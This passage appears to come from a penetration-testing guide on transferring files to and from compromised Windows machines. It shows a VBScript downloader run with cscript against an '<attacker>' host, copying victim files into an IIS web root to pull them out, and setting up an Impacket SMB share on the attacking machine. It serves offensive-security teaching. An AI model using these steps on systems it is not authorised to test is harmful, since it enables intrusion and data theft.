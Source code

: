 ```
echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1, 1))) >> wget.vbs
echo Next >> wget.vbs
echo ts.Close >> wget.vbs
```

Then, execute the script with `cscript` utility:

```
cscript wget.vbs <http://<attacker>/<filename> > <dest-path>
```


### IIS Server HTTP


If the target Windows host has a running web server, why not to use it to transfer files from the victim machine? Just copy the files to the root of the web application, download them and remember to delete the artifacts.

```
copy <source-path> C:\inetpub\wwwroot\
```


## SMB


The Server Message Block protocol (SMB protocol) is a client-server communication protocol used for sharing access to files, printers, serial ports and other resources on a network. SMB is used in all Windows systems and is enabled by default.


### Setup SMB


To setup a SMB server on our attacking machine we can use [Impacket's smbserver.py](https://github.com/fortra/impacket/blob/master/examples/smbserver.py). Impacket is included in Kali Linux by default. We have to specify our share name (share in these examples).

**Note**: Impacket provides low-level programming access to some packets for certain protocols in the network.

```bash
impacket-smbserver share <source-path> -smb2support
```

Sometimes we can meet situations where Domain Group Policy disables access to SMB shares without authentication. In that case we can specify login credentials in impacket-smbserver:

```bash
impacket-smbserver share <source-path> -smb2support -username 'pentest' -p 'Pentest123!@#'
```

To verify the share was created and accessible, we can run:

```bash
sudo smbclient -L 127.0.0.1
```
